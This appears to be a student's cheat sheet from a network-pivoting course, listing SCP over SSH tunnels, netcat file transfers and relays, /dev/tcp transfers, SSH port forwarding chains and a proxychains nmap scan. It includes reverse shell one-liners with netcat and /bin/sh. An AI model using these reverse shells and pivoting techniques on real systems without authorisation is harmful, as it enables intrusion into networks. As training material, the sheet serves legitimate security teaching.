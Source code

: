 SCP through tunnel
[ssh student@172.16.82.106 -L 1111:localhost:22 -NT]
-download from remote to local dir [scp -P 1111 student@localhost:secretstuff.txt /home/student]
-upload to a remote from a local dir [scp -P 1111 secretstuff.txt student@localhost:/home/student]

Netcat (CLIENT TO LISTENER FILE TRANSFER)
Client (sends file): nc 10.2.0.2 9001 < file.txt
Listener (receive file): nc -l -p 9001 > newfile.txt

Netcat (LISTENER TO CLIENT FILE TRANSFER)
Listener (sends file): nc -l -p 9001 < file.txt
Client (receive file): nc 10.2.0.2 9001 > newfile.txt

Netcat Relay
On Client -
mknod mypipe p
nc 10.1.0.2 9002 0< mypipe | nc 10.2.0.2 9001 1> mypipe
On Listener2 (sends) - nc -l -p 9002 < infile.txt
On Listener1 (receives) - nc -l -p 9001 > outfile.txt
writes out to both through named pipe

File transfer /dev/tcp (host w/out nc)
on receiving - nc -l -p 1111 > file.txt
on sending - cat file.txt > /dev/tcp/10.2.0.2/1111

Reverse shell (nc)
shelled into remote host - nc -c /bin/sh <ip> <unfiltered port>
piping bash - /bin/sh | nc <ip> <unfiltered port>
listen for shell - nc -l -p <same unfiltered port> -vvv
using -e - nc -l -p <unfiltered port> -e /bin/bash

ssh -L <local bind port>:<tgt ip>:<tgt port> -p <alt port> <user>@<pivot ip> -NT
ssh -p <optional alt port> <user>@<pivot ip> -L <local bind port>:<tgt ip>:<tgt port> -NT

create local port 1111 on local host, forwards to target host port 80[ssh student@172.16.82.106 -L 1111:localhost:80 -NT]


PC1> ssh user@S1 -L 1111:S2:22 -NT      

PC1> nc 127.0.0.1 <local port>

PC1> wget -r 127.0.0.1:<local port>                                       

PC1> ssh user@S1 -L 1112:S2:23 -NT (on S2 through telnet port 23)

PC1> telnet 127.0.0.1 1112

S2> ssh user@S1 -R 1200:127.0.0.1:22 -NT 

PC1> ssh user@S1

S1> nc 127.0.0.1 1200

PC1> ssh user@S1 -L 1113:127.0.0.1:1200 -NT

PC1> ssh S2@127.0.0.1 -p 1113 -D 9050 -NT

PC1> proxychains nmap PC2 -Pn -A -T4 -vvvv
